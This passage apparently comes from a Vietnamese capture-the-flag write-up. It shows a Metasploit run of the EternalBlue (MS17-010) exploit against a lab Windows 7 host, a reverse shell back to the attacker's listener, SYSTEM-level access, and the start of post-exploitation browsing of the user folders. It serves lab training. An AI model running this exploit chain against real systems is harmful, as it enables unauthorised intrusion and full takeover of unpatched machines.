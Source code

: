 `run` để tiến hành khai thác
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
<SNIP>
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 2552 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

# Post-Exploit
Như chúng ta thấy, hiện tại ta đã ở quyên **SYSTEM** nên có thể dễ dàng lấy được flag của user và root ở `Desktop

```
C:\Windows\system32>cd C:\Users       
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   2,690,125,824 bytes free
```

